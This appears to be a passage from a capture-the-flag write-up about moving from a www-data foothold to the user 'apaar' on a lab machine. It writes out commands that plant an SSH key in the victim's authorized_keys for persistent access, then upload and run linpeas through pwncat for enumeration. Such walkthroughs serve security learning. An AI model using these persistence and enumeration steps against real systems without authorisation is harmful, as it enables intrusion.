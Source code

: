   


---
  
  
# <ins>Apaar enumeration --- User flag </ins> 


When i have a reverse shell or an escalation like this, i will try first to stabilize
with a ssh connection. Nmap show ssh is running and we in our www-data enumeration we see
that apaar has a folder called ".ssh" in his home directory. So we can put our key under authorized_keys.


```bash
@ local

ssh-keygen
Input a name if you want. (I choose apaar_rsa)
Check with enter

chmod 600 apaar_rsa

cat apaar_rsa.pub 
ssh-rsa some crazy strings thm@thm

@ victim
cd /home/apaar/.ssh
echo "<Output of cat apaar_rsa.pub>" > authorized_keys

@local

ssh -i apaar_rsa apaar@10.10.10.10
```
  

Now we have a stable connection for further steps.
In my case i use pwncat for system enumeration and file transfer.
  


```bash
cd pwncat folder
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pwncat -i <apaar_rsa path> apaar@10.10.10.10

cd /tmp
ctrl + D
upload linpeas.sh
ctrl + D

chmod +x linpeas.sh
./linpeas.sh | tee lin.log

ctrl + D
download lin.log
run enumerate.gather
```
  
